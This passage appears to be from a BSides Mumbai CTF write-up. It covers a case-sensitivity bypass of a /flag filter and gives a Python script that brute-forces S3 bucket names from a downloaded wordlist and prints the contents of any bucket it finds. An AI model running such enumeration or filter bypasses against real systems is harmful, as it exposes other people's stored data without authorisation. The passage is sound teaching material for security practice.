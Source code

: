 ## Challenge 12: BabyPass

/FLAG endpoint bypasses /flag filter

![Untitled](/assets/img/BSides%20Mumbai%20CTF%205b2b9b2ec9614c368ef8a75ee3973733/Untitled%2025.png)

## Challenge 13: A Bucket load of samosa

```powershell
import requests

# Load the custom dictionary
url = "https://naughtydev-company-files.s3.eu-central-1.amazonaws.com/naughtydev-bucketnames.txt"
response = requests.get(url)
dictionary = response.text.splitlines()

# Check the buckets
for word in dictionary:
    bucket_name = f"{word}.naughtyide.s3.amazonaws.com"
    print(bucket_name)
    bucket_url = f"http://{bucket_name}"
    response = requests.get(bucket_url)
    if response.status_code == 200:
        print(f"Bucket found: {bucket_url}")
        print(response.text)
```

This code, enumerates all the buckets based on the pattern.

![Untitled](/assets/img/BSides%20Mumbai%20CTF%205b2b9b2ec9614c368ef8a75ee3973733/Untitled%2026.png)

